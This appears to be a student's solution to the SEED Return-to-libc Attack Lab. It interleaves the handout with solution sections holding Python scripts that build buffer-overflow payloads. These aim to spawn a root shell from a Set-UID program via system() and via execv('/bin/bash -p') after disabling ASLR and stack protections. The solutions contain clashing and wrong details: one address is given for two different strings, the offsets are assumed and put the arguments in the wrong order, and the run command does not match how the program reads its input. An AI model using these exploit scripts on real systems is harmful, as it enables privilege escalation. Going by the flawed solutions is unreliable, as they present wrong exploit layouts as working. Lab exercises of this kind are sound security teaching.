

## 3.2 SEED Lab (30 pts)
Return-to-libc Attack Lab
https://seedsecuritylabs.org/Labs_20.04/Software/Return_to_Libc/

#### 2 Environment Setup

##### 2.1 Note on x86 and x64 Architectures

The return-to-libc attack on the x64 machines (64-bit) is much more difficult than that on the x86 machines
(32-bit). Although the SEED Ubuntu 20.04 VM is a 64-bit machine, we decide to keep using the 32-bit
programs (x64 is compatible with x86, so 32-bit programs can still run on x64 machines). In the future, we
may introduce a 64-bit version for this lab. Therefore, in this lab, when we compile programs using gcc,
we always use the -m32 flag, which means compiling the program into 32-bit binary.

##### 2.2 Turning off countermeasures

You can execute the lab tasks using our pre-built Ubuntu virtual machines. Ubuntu and other Linux dis-
tributions have implemented several security mechanisms to make the buffer-overflow attack difficult. To
simplify our attacks, we need to disable them first.
Address Space Randomization. Ubuntu and several other Linux-based systems use address space ran-
domization to randomize the starting address of heap and stack, making guessing the exact addresses diffi-
cult. Guessing addresses is one of the critical steps of buffer-overflow attacks. In this lab, we disable this
feature using the following command:
`$ sudo sysctl -w kernel.randomize_va_space=0`
The StackGuard Protection Scheme. The gcc compiler implements a security mechanism called Stack-
Guard to prevent buffer overflows. In the presence of this protection, buffer overflow attacks do not work.
We can disable this protection during the compilation using the -fno-stack-protector option. For example,
to compile a program example.c with StackGuard disabled, we can do the following:
`$ gcc -m32 -fno-stack-protector example.c`
Non-Executable Stack. Ubuntu used to allow executable stacks, but this has now changed. The binary
images of programs (and shared libraries) must declare whether they require executable stacks or not, i.e.,
they need to mark a field in the program header. Kernel or dynamic linker uses this marking to decide
whether to make the stack of this running program executable or non-executable. This marking is done
automatically by the recent versions of gcc, and by default, stacks are set to be non-executable. To change
that, use the following option when compiling programs:

```
For executable stack:
$ gcc -m32 -z execstack -o test test.c
For non-executable stack:
$ gcc -m32 -z noexecstack -o test test.c
```

Because the objective of this lab is to show that the non-executable stack protection does not work, you
should always compile your program using the "-z noexecstack" option in this lab.
Configuring /bin/sh. In Ubuntu 20.04, the /bin/sh symbolic link points to the /bin/dash shell.
The dash shell has a countermeasure that prevents itself from being executed in a Set-UID process. If
SEED Labs – Return-to-libc Attack Lab 3
dash is executed in a Set-UID process, it immediately changes the effective user ID to the process’s real
user ID, essentially dropping its privilege.
Since our victim program is a Set-UID program, and our attack uses the system() function to
run a command of our choice. This function does not run our command directly; it invokes /bin/sh
to run our command. Therefore, the countermeasure in /bin/dash immediately drops the Set-UID
privilege before executing our command, making our attack more difficult. To disable this protection, we
link /bin/sh to another shell that does not have such a countermeasure. We have installed a shell program
called zsh in our Ubuntu 16.04 VM. We use the following commands to link /bin/sh to zsh:
`$ sudo ln -sf /bin/zsh /bin/sh`
It should be noted that the countermeasure implemented in dash can be circumvented. We will do that
in a later task.

#### 2.3 The Vulnerable Program

Listing 1: The vulnerable program (retlib.c)

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#ifndef BUF_SIZE
#define BUF_SIZE 12
#endif

int bof(char *str)
{
    char buffer[BUF_SIZE];
    unsigned int *framep;

    // Copy ebp into framep
    asm("movl %%ebp, %0" : "=r" (framep));

    /* print out information for experiment purpose */
    printf("Address of buffer[] inside bof():  0x%.8x\n", (unsigned)buffer);
    printf("Frame Pointer value inside bof():  0x%.8x\n", (unsigned)framep);

    strcpy(buffer, str);

    return 1;
}

void foo(){
    static int i = 1;
    printf("Function foo() is invoked %d times\n", i++);
    return;
}

int main(int argc, char **argv)
{
   char input[1000];
   FILE *badfile;

   badfile = fopen("badfile", "r");
   int length = fread(input, sizeof(char), 1000, badfile);
   printf("Address of input[] inside main():  0x%x\n", (unsigned int) input);
   printf("Input size: %d\n", length);

   bof(input);

   printf("(^_^)(^_^) Returned Properly (^_^)(^_^)\n");
   return 1;
}

```

The above program has a buffer overflow vulnerability. It first reads an input up to 1000 bytes from
a file called badfile. It then passes the input data to the bof() function, which copies the input to its
internal buffer using strcpy(). However, the internal buffer’s size is less than 1000, so here is potential
buffer-overflow vulnerability.
This program is a root-owned Set-UID program, so if a normal user can exploit this buffer overflow
vulnerability, the user might be able to get a root shell. It should be noted that the program gets its input
from a file called badfile, which is provided by users. Therefore, we can construct the file in a way such
that when the vulnerable program copies the file contents into its buffer, a root shell can be spawned.

##### Compilation

Let us first compile the code and turn it into a root-owned Set-UID program. Do not forget

to include the -fno-stack-protector option (for turning off the StackGuard protection) and the "-z
noexecstack" option (for turning on the non-executable stack protection). It should also be noted that
changing ownership must be done before turning on the Set-UID bit, because ownership changes cause
the Set-UID bit to be turned off. All these commands are included in the provided Makefile.

```
// Note: N should be replaced by the value set by the instructor
$ gcc -m32 -DBUF_SIZE=N -fno-stack-protector -z noexecstack -o retlib retlib.c
$ sudo chown root retlib
$ sudo chmod 4755 retlib
```

##### For instructors

To prevent students from using the solutions from the past (or from those posted on the
Internet), instructors can change the value for BUF SIZE by requiring students to compile the code using
a different BUF SIZE value. Without the -DBUF SIZE option, BUF SIZE is set to the default value 12
(defined in the program). When this value changes, the layout of the stack will change, and the solution
will be different. Students should ask their instructors for the value of N. The value of N can be set in the
provided Makefile and N can be from 10 to 800.

### 3 Lab Tasks

#### 3.1 Task 1: Finding out the Addresses of libc Functions

In Linux, when a program runs, the libc library will be loaded into memory. When the memory address
randomization is turned off, for the same program, the library is always loaded in the same memory address
(for different programs, the memory addresses of the libc library may be different). Therefore, we can
easily find out the address of system() using a debugging tool such as gdb. Namely, we can debug the
SEED Labs – Return-to-libc Attack Lab 5
target program retlib. Even though the program is a root-owned Set-UID program, we can still debug
it, except that the privilege will be dropped (i.e., the effective user ID will be the same as the real user ID).
Inside gdb, we need to type the run command to execute the target program once, otherwise, the library
code will not be loaded. We use the p command (or print) to print out the address of the system() and
exit() functions (we will need exit() later on).

```bash
$ touch badfile
$ gdb -q retlibŸ Use "Quiet" mode
Reading symbols from ./retlib...
(No debugging symbols found in ./retlib)
gdb-peda$ break main
Breakpoint 1 at 0x1327
gdb-peda$ run
......
Breakpoint 1, 0x56556327 in main ()
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e12420 <system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xf7e04f80 <exit>
gdb-peda$ quit
```

It should be noted that even for the same program, if we change it from a Set-UID program to a
non-Set-UID program, the libc library may not be loaded into the same location. Therefore, when we
debug the program, we need to debug the target Set-UID program; otherwise, the address we get may be
incorrect.
Running gdb in batch mode. If you prefer to run gdb in a batch mode, you can put the gdb commands
in a file, and then ask gdb to execute the commands from this file:

```
$ cat gdb_command.txt
break main
run
p system
p exit
quit
$ gdb -q -batch -x gdb_command.txt ./retlib
...
Breakpoint 1, 0x56556327 in main ()
$1 = {<text variable, no debug info>} 0xf7e12420 <system>
$2 = {<text variable, no debug info>} 0xf7e04f80 <exit>
```
##### solution

- code : `Return_to_Libc/retlib.c`
- script : `Return_to_Libc/gdb_command.txt`
- output : `Return_to_Libc/task1_output.txt`
- screenshot : `Return_to_Libc/task1_screenshot.png`

```gdb_command.txt
break main
run
p system
p exit
quit
```




#### 3.2 Task 2: Putting the shell string in the memory

Our attack strategy is to jump to the system() function and get it to execute an arbitrary command.
Since we would like to get a shell prompt, we want the system() function to execute the "/bin/sh"
program. Therefore, the command string "/bin/sh" must be put in the memory first and we have to know
its address (this address needs to be passed to the system() function). There are many ways to achieve
these goals; we choose a method that uses environment variables. Students are encouraged to use other
approaches.
When we execute a program from a shell prompt, the shell actually spawns a child process to execute the
program, and all the exported shell variables become the environment variables of the child process. This
SEED Labs – Return-to-libc Attack Lab 6
creates an easy way for us to put some arbitrary string in the child process’s memory. Let us define a new
shell variable MYSHELL, and let it contain the string "/bin/sh". From the following commands, we can
verify that the string gets into the child process, and it is printed out by the env command running inside
the child process.

```
$ export MYSHELL=/bin/sh
$ env | grep MYSHELL
MYSHELL=/bin/sh
```

We will use the address of this variable as an argument to system() call. The location of this variable
in the memory can be found out easily using the following program:
```
void main(){
    char* shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```
Compile the code above into a binary called prtenv. If the address randomization is turned off, you
will find out that the same address is printed out. When you run the vulnerable program retlib inside the
same terminal, the address of the environment variable will be the same (see the special note below). You
can verify that by putting the code above inside retlib.c. However, the length of the program name does
make a difference. That’s why we choose 6 characters for the program name prtenv to match the length
of retlib.

##### Note

You should use the -m32 flag when compiling the above program, so the binary code prtenv will
be for 32-bit machines, instead of for 64-bit ones. The vulnerable program retlib is a 32-bit binary, so if
prtenv is 64-bit, the address of the environment variable will be different.

##### solution

1. Set the Environment Variable

   Create a shell script `change_env.sh` to set the environment variable `MYSHELL` to `/bin/sh`:

   ```bash
   #!/bin/bash
   export MYSHELL=/bin/sh
   env | grep MYSHELL
   MYSHELL=/bin/sh

   ```

   Save the script as `change_env.sh` and make it executable:

   ```bash
   chmod +x change_env.sh
   ```

   Run the script to set the environment variable:

   ```bash
   ./change_env.sh
   ```

2. Print the Address of the Environment Variable**

   Create a C program `prtenv.c` to retrieve and print the memory address of the `MYSHELL` environment variable:

   ```c
   #include <stdio.h>
   #include <stdlib.h>

   void main() {
       // Get the address of the MYSHELL environment variable
       char* shell = getenv("MYSHELL");
       if (shell) {
           // Print the address of the environment variable
           printf("%x\n", (unsigned int)shell);
       }
   }
   ```
and make (makefile is updated)
`make`

4. Run the Program to Get the Address

   Execute the compiled program `prtenv` to retrieve the memory address of the `MYSHELL` environment variable:

   ```bash
   ./prtenv
   ```

   The output will be the memory address of the `MYSHELL` environment variable, which contains the string `/bin/sh`. For example:

   ```
   bffff7c4
   ```

   This address (`0xbffff7c4` in this example) will be used as an argument to the `system()` function in the return-to-libc attack.

After completing the above steps, you will have:
1. The environment variable `MYSHELL` set to `/bin/sh`.
2. The memory address of the `MYSHELL` environment variable printed by `prtenv`.

For example:

```
MYSHELL=/bin/sh
bffff7c4
```

This address will be used in the next task to perform the return-to-libc attack.

#### 3.3 Task 3: Launching the Attack

We are ready to create the content of badfile. Since the content involves some binary data (e.g., the
address of the libc functions), we can use Python to do the construction. We provide a skeleton of the
code in the following, with the essential parts left for you to fill out.

```py
# !/usr/bin/env python3

import sys

# Fill content with non-zero values

content = bytearray(0xaa for i in range(300))
X = 0
sh_addr = 0x00000000 # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder=’little’)
Y = 0
system_addr = 0x00000000 # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder=’little’)
Z = 0
exit_addr = 0x00000000 # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder=’little’)
SEED Labs – Return-to-libc Attack Lab 7

# Save content to a file

with open("badfile", "wb") as f:
f.write(content)
```

You need to figure out the three addresses and the values for X, Y, and Z. If your values are incorrect,
your attack might not work. In your report, you need to describe how you decide the values for X, Y and Z.
Either show us your reasoning or, if you use a trial-and-error approach, show your trials.

##### A note regarding gdb

If you use gdb to figure out the values for X, Y, and Z, it should be noted that the
gdb behavior in Ubuntu 20.04 is slightly different from that in Ubuntu 16.04. In particular, after we set a
break point at function bof, when gdb stops inside the bof() function, it stops before the ebp register is
set to point to the current stack frame, so if we print out the value of ebp here, we will get the caller’s ebp
value, not bof’s ebp. We need to type next to execute a few instructions and stop after the ebp register
is modified to point to the stack frame of the bof() function. The SEED book (2nd edition) is based on
Ubuntu 16.04, so it does not have this next step.

##### Attack variation 1: Is the exit() function really necessary? Please try your attack without including

the address of this function in badfile. Run your attack again, report and explain your observations.

##### Attack variation 2: After your attack is successful, change the file name of retlib to a different name

making sure that the length of the new file name is different. For example, you can change it to newretlib.
Repeat the attack (without changing the content of badfile). Will your attack succeed or not? If it does
not succeed, explain why.
##### solution
###### 1 Find the Address of `"/bin/sh"`
1. Locate the string `"/bin/sh"` in the libc library:
   ```gdb
   find __libc_start_main,+9999999,"/bin/sh"
   ```
   Example output:
   ```
   0xf7f52a0b
   ```
   The address of `"/bin/sh"` is `0xf7f52a0b`.

---

###### Step 2: Determine the Offsets (X, Y, Z)
The offsets `X`, `Y`, and `Z` depend on the layout of the stack and the structure of the payload. To determine these offsets:

1. **Analyze the stack layout**:
   - Use `gdb` to set a breakpoint at the vulnerable function (e.g., `bof()`).
   - Run the program and inspect the stack to determine where the return address is located.

2. **Trial and Error**:
   - Start with a guess for `X`, `Y`, and `Z` based on the stack layout.
   - Adjust the offsets until the payload overwrites the return address correctly.

For this example, let's assume the following offsets:
- `X = 112`: The offset where the address of `"/bin/sh"` is placed.
- `Y = 108`: The offset where the address of `system()` is placed.
- `Z = 116`: The offset where the address of `exit()` is placed.

---

###### Step 3: Update the Exploit Code
Now that we have the addresses and offsets, we can update the exploit code:

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# Addresses
sh_addr = 0xf7f52a0b       # The address of "/bin/sh"
system_addr = 0xf7e12420   # The address of system()
exit_addr = 0xf7e04f80     # The address of exit()

# Offsets
X = 112
Y = 108
Z = 116

# Construct the payload
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')
content[Z:Z+4] = (exit_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

---

###### Step 4: Test the Exploit
1. Run the vulnerable program with the crafted `badfile`:
   ```bash
   ./vulnerable_program < badfile
   ```
2. If the exploit is successful, you should get a shell.

---

##### Attack Variations

###### Variation 1: Exclude `exit()`
To test the attack without including the address of `exit()`, simply remove the `exit_addr` from the payload:

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# Addresses
sh_addr = 0xf7f52a0b       # The address of "/bin/sh"
system_addr = 0xf7e12420   # The address of system()

# Offsets
X = 112
Y = 108

# Construct the payload
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

Run the attack again and observe the behavior. The program may crash after executing `system()` because there is no valid return address.

---

###### Variation 2: Change the File Name
If you change the file name of the vulnerable program (e.g., from `retlib` to `newretlib`), the attack may fail. This is because the memory layout of the program (including the stack and libc addresses) may change due to differences in the length of the file name. To fix this, you would need to recalculate the addresses and offsets.

---

##### Explanation of Observations
1. **Without `exit()`**: The attack may still succeed in executing `system("/bin/sh")`, but the program will likely crash afterward because there is no valid return address.
2. **File Name Change**: The attack may fail because the memory layout changes, causing the addresses and offsets to become invalid. This demonstrates the importance of precise memory layout knowledge in return-to-libc attacks.


#### 3.4 Task 4: Defeat Shell’s Countermeasure

The goal of this task is to launch the return-to-libc attack after enabling the shell’s countermeasure. Before completing Tasks 1 to 3, we relinked `/bin/sh` to `/bin/zsh` instead of `/bin/dash` (the original setting). This is because some shell programs, such as `dash` and `bash`, have a countermeasure that automatically drops privileges when executed in a Set-UID process. In this task, we aim to bypass this countermeasure and obtain a root shell, even when `/bin/sh` points to `/bin/dash`.

First, change the symbolic link back to `/bin/dash`:
```bash
$ sudo ln -sf /bin/dash /bin/sh
```

Although `dash` and `bash` drop the Set-UID privilege, they do not do so if invoked with the `-p` option. When the `system()` function is called, it invokes `/bin/sh` but does not use the `-p` option. As a result, the Set-UID privilege of the target program is dropped. However, if we can directly execute `/bin/bash -p` without going through the `system()` function, we can retain root privileges.

Several libc functions, such as the `exec()` family (e.g., `execl()`, `execle()`, `execv()`, etc.), allow us to achieve this. For this task, we will use the `execv()` function:
```c
int execv(const char *pathname, char *const argv[]);
```

This function takes two arguments:
1. `pathname`: The address of the command to execute.
2. `argv[]`: The address of the argument array for the command.

To invoke `/bin/bash -p` using `execv()`, we need to set up the following:
```c
pathname = address of "/bin/bash"
argv[0] = address of "/bin/bash"
argv[1] = address of "-p"
argv[2] = NULL (i.e., 4 bytes of zero).
```

From previous tasks, we can easily obtain the addresses of the required strings. If we construct the `argv[]` array on the stack and get its address, we will have everything needed to conduct the return-to-libc attack. This time, we will return to the `execv()` function.

**Important Note**: The value of `argv[2]` must be zero (an integer zero, four bytes). If we include four zeros in our input, `strcpy()` will terminate at the first zero, and anything after it will not be copied into the `bof()` function’s buffer. However, since everything in our input is already on the stack (in the `main()` function’s buffer), we can use the address of this buffer to solve the problem. The vulnerable program conveniently prints this address for us.

To complete this task, construct your input so that when the `bof()` function returns, it jumps to `execv()`, which fetches the address of the `/bin/bash` string and the `argv[]` array from the stack. When `execv()` executes, it will invoke `/bin/bash -p` and give you a root shell.

---

### Solution

#### Step 1: Determine the Required Addresses

1. **Address of `execv()`**
   Use `gdb` to find the address of the `execv()` function in the libc library:
   ```bash
   gdb ./vulnerable_program
   ```
   In `gdb`, run:
   ```gdb
   p execv
   ```
   Example output:
   ```
   $1 = {<text variable, no debug info>} 0xf7e0f060 <execv>
   ```
   The address of `execv()` is `0xf7e0f060`.

2. **Address of `/bin/bash`**
   Use `gdb` to locate the string `/bin/bash` in the libc library:
   ```gdb
   find __libc_start_main,+9999999,"/bin/bash"
   ```
   Example output:
   ```
   0xf7f52a0b
   ```
   The address of `/bin/bash` is `0xf7f52a0b`.

3. **Address of `-p`**
   Similarly, locate the string `-p` in the libc library:
   ```gdb
   find __libc_start_main,+9999999,"-p"
   ```
   Example output:
   ```
   0xf7f52b0c
   ```
   The address of `-p` is `0xf7f52b0c`.

4. **Address of the Stack Buffer**
   The vulnerable program prints the address of the stack buffer. Run the program and note the printed address. For example:
   ```
   Buffer address: 0xffffd0a0
   ```
   The stack buffer starts at `0xffffd0a0`.

---

#### Step 2: Construct the Payload

The payload must:
1. Overwrite the return address to point to `execv()`.
2. Place the arguments for `execv()` on the stack:
   - `pathname`: Address of `/bin/bash`.
   - `argv[]`: Address of the argument array on the stack.

##### 2.1 Layout of the Payload
The payload will look like this:
```
[ Padding ] [ execv() address ] [ Return address (dummy) ] [ pathname ] [ argv[] ]
[ argv[0] ] [ argv[1] ] [ argv[2] ]
```

##### 2.2 Calculate Offsets
Use `gdb` to determine the offset to the return address. For example, if the return address is at offset `112`, the payload will start with `112` bytes of padding.

##### 2.3 Construct the Argument Array
The `argv[]` array must be constructed on the stack:
- `argv[0]`: Address of `/bin/bash` (`0xf7f52a0b`).
- `argv[1]`: Address of `-p` (`0xf7f52b0c`).
- `argv[2]`: `NULL` (4 bytes of zero).

Assume the `argv[]` array is placed at `0xffffd0c0` (just after the padding).

---

#### Step 3: Write the Exploit Code

Here is the Python script to generate the payload:

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

# Addresses
execv_addr = 0xf7e0f060       # Address of execv()
bin_bash_addr = 0xf7f52a0b    # Address of "/bin/bash"
dash_p_addr = 0xf7f52b0c      # Address of "-p"
argv_addr = 0xffffd0c0        # Address of argv[] on the stack

# Offsets
padding_offset = 112          # Offset to the return address
return_addr_offset = padding_offset + 4
pathname_offset = return_addr_offset + 4
argv_offset = pathname_offset + 4

# Construct the payload
# Padding
content[:padding_offset] = b"A" * padding_offset

# Overwrite return address with execv() address
content[padding_offset:padding_offset+4] = (execv_addr).to_bytes(4, byteorder='little')

# Dummy return address (not used, but required for stack alignment)
content[return_addr_offset:return_addr_offset+4] = b"BBBB"

# Argument 1: pathname (address of "/bin/bash")
content[pathname_offset:pathname_offset+4] = (bin_bash_addr).to_bytes(4, byteorder='little')

# Argument 2: argv[] (address of the argument array)
content[argv_offset:argv_offset+4] = (argv_addr).to_bytes(4, byteorder='little')

# Construct argv[] on the stack
argv0_offset = argv_addr - 0xffffd0a0
argv1_offset = argv0_offset + 4
argv2_offset = argv1_offset + 4

# argv[0]: Address of "/bin/bash"
content[argv0_offset:argv0_offset+4] = (bin_bash_addr).to_bytes(4, byteorder='little')

# argv[1]: Address of "-p"
content[argv1_offset:argv1_offset+4] = (dash_p_addr).to_bytes(4, byteorder='little')

# argv[2]: NULL (4 bytes of zero)
content[argv2_offset:argv2_offset+4] = (0).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

---

#### Step 4: Test the Exploit

1. Run the vulnerable program with the crafted `badfile`:
   ```bash
   ./vulnerable_program < badfile
   ```
2. If the exploit is successful, you should get a root shell.

---

#### Explanation of the Exploit

1. The payload overwrites the return address to point to `execv()`.
2. The arguments for `execv()` are placed on the stack:
   - `pathname` points to the string `/bin/bash`.
   - `argv[]` is an array containing:
     - `argv[0]`: Address of `/bin/bash`.
     - `argv[1]`: Address of `-p`.
     - `argv[2]`: `NULL`.
3. When `execv()` is executed, it invokes `/bin/bash -p`, bypassing the privilege-dropping countermeasure and giving you a root shell.

There are many ways to solve the problem in Task 4. Another way is to invoke setuid(0) before invoking
system(). The setuid(0) call sets both real user ID and effective user ID to 0, turning the process
into a non-Set-UID one (it still has the root privilege). This approach requires us to chain two functions
together. The approach was generalized to chaining multiple functions together, and was further generalized
to chain multiple pieces of code together. This led to the Return-Oriented Programming (ROP).
Using ROP to solve the problem in Task 4 is quite sophisticated, and it is beyond the scope of this lab.
However, we do want to give students a taste of ROP, asking them to work on a special case of ROP. In the
retlib.c program, there is a function called foo(), which is never called in the program. That function
is intended for this task. Your job is to exploit the buffer-overflow problem in the program, so when the
program returns from the bof() function, it invokes foo() 10 times, before giving you the root shell. In
your lab report, you need to describe how your input is constructed. Here is what the results will look like.

```bash
$ ./retlib
...
Function foo() is invoked 1 times
Function foo() is invoked 2 times
Function foo() is invoked 3 times
Function foo() is invoked 4 times
Function foo() is invoked 5 times
Function foo() is invoked 6 times
Function foo() is invoked 7 times
Function foo() is invoked 8 times
Function foo() is invoked 9 times
Function foo() is invoked 10 times
bash-5.0#fi Got root shell!
```

##### Guidelines

Let’s review what we did in Task 3. We constructed the data on the stack, such that when
the program returns from bof(), it jumps to the system() function, and when system() returns,
SEED Labs – Return-to-libc Attack Lab 9
the program jumps to the exit() function. We will use a similar strategy here. Instead of jumping to
system() and exit(), we will construct the data on the stack, such that when the program returns from
bof, it returns to foo; when foo returns, it returns to another foo. This is repeated for 10 times. When
the 10th foo returns, it returns to the execv() function to give us the root shell.
Further readings. What we did in this task is just a special case of ROP. You may have noticed that the
foo() function does not take any argument. If it does, invoking it 10 times will become signficantly more
complicated. A generic ROP technique allows you to invoke any number of functions in a sequence, allow-
ing each function to have multiple arguments. The SEED book (2nd edition) provides detailed instructions
on how to use the generic ROP technique to solve the problem in Task 4. It involves calling sprintf()
four times, followed by an invocation of setuid(0), before invoking system("/bin/sh") to give us
the root shell. The method is quite complicated and takes 15 pages to explain in the SEED book.

### 4 Guidelines: Understanding the Function Call Mechanism

#### 4.1 Understanding the stack layout

To know how to conduct Return-to-libc attacks, we need to understand how stacks work. We use a small C
program to understand the effects of a function invocation on the stack. More detailed explanation can be
found in the SEED book and SEED lecture.
/*foobar.c*/

```
# include<stdio.h>

void foo(int x)
{
printf("Hello world: %d\n", x);
}
int main()
{
foo(1);
return 0;
}
```

We can use "gcc -m32 -S foobar.c" to compile this program to the assembly code. The result-
ing file foobar.s will look like the following:

```
......
8 foo:
9 pushl %ebp
10 movl %esp, %ebp
11 subl $8, %esp
12 movl 8(%ebp), %eax
13 movl %eax, 4(%esp)
14 movl $.LC0, (%esp) : string "Hello world: %d\n"
15 call printf
16 leave
17 ret
......
21 main:
22 leal 4(%esp), %ecx
SEED Labs – Return-to-libc Attack Lab 10
23 andl $-16, %esp
24 pushl -4(%ecx)
25 pushl %ebp
26 movl %esp, %ebp
27 pushl %ecx
28 subl $4, %esp
29 movl $1, (%esp)
30 call foo
31 movl $0, %eax
32 addl $4, %esp
33 popl %ecx
34 popl %ebp
35 leal -4(%ecx), %esp
36 ret
```

#### 4.2 Calling and entering foo()

Let us concentrate on the stack while calling foo(). We can ignore the stack before that. Please note that
line numbers instead of instruction addresses are used in this explanation.


Figure 1: Entering and Leaving foo()
• Line 28-29:: These two statements push the value 1, i.e. the argument to the foo(), into the stack.
This operation increments %esp by four. The stack after these two statements is depicted in Fig-
ure 1(a).
• Line 30: call foo: The statement pushes the address of the next instruction that immediately
follows the call statement into the stack (i.e the return address), and then jumps to the code of
foo(). The current stack is depicted in Figure 1(b).
SEED Labs – Return-to-libc Attack Lab 11
• Line 9-10: The first line of the function foo() pushes %ebp into the stack, to save the previous
frame pointer. The second line lets %ebp point to the current frame. The current stack is depicted in
Figure 1(c).
• Line 11: subl $8, %esp: The stack pointer is modified to allocate space (8 bytes) for local
variables and the two arguments passed to printf. Since there is no local variable in function foo,
the 8 bytes are for arguments only. See Figure 1(d).

#### 4.3 Leaving foo()

Now the control has passed to the function foo(). Let us see what happens to the stack when the function
returns.
• Line 16: leave: This instruction implicitly performs two instructions (it was a macro in earlier x86
releases, but was made into an instruction later):
mov %ebp, %esp
pop %ebp
The first statement releases the stack space allocated for the function; the second statement recovers
the previous frame pointer. The current stack is depicted in Figure 1(e).
• Line 17: ret: This instruction simply pops the return address out of the stack, and then jump to the
return address. The current stack is depicted in Figure 1(f).
• Line 32: addl $4, %esp: Further restore the stack by releasing more memories allocated for
foo. As you can see that the stack is now in exactly the same state as it was before entering the
function foo (i.e., before line 28).
